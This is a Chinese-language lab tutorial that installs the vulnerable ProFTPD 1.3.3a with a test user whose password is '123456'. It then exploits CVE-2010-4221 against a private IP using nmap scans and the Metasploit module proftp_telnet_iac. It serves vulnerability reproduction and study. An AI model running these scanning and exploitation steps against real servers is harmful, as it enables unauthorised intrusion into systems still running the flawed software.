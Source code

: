 # ProFTPD测试环境搭建与漏洞测试

## 0x00 ProFTPD简介
---

全称Professional FTP daemon，是一个Unix平台上或是类Unix平台上（如Linux, FreeBSD等）的FTP服务器程序

镜像下载地址：

ftp://ftp.proftpd.org/

## 0x01 测试系统配置：
---

新建一个ftp专有用户组ftpadmin：

```
groupadd ftpadmin 
```

指定ftpadmin组下用户ftpadmin1，对目录/var/ftp有权限：

```
useradd -d /var/ftp -g ftpadmin ftpadmin1
```

设置用户ftpadmin1密码：

```
passwd ftpadmin1
```

设置密码为`123456`

新建ftp文件目录：

```
mkdir /var/ftp 
```

配置权限：

将ftp目录的所属组改为ftpadmin：

```
chgrp ftpadmin /var/ftp 
```

设置目录权限：

```
chmod 2755 /var/ftp
```

## 0x02 安装ProFTPD
---

为了测试漏洞`CVE-2010-4221`，所以选择下载`proftpd-1.3.3a`

漏洞详情：

https://cvedetails.com/cve/CVE-2010-4221/

下载文件：

wget ftp://ftp.proftpd.org/historic/source/proftpd-1.3.3a.tar.bz2

解压缩：

```
tar -xjf proftpd-1.3.3a.tar.bz2
```

安装：

设置安装目录/var/proftpd, 配置文件目录/etc：

```
./configure --prefix=/var/proftpd --sysconfdir=/etc --enable-ctrls  
make & make install
```

修改proftpd配置文件：

```
vim /etc/proftpd.conf 
```

设置登录用户和用户组：

```
# Set the user and group under which the server will run.
User                            ftpadmin1
Group                           ftpadmin
```

启动服务：

```
/var/proftpd/sbin/proftpd 
```

结束服务：

```
pkill  proftpd
```

浏览器访问：

ftp://192.168.81.142/

输出用户名:`ftpadmin1`
密码：`123456`

登录成功

windows命令行：

```
ftp 192.168.81.142
```

kali 2.0：

默认不支持ftp命令，需要安装：

```
apt-get install ftp
```

## 0x03 漏洞测试
---

服务器版本探测：

```
nmap -sV 192.168.81.142
```

服务器系统探测：

```
nmap -O 192.168.81.142
```

msf搜索相关exp：

```
search CVE-2010-4221
```

找到可用payload：

- exploit/freebsd/ftp/proftp_telnet_iac
- exploit/linux/ftp/proftp_telnet_iac

查看详情：

```
use linux/ftp/proftp_telnet_iac 
info
```

漏洞利用：

```
set RHOST 192.168.81.142
exploit
```

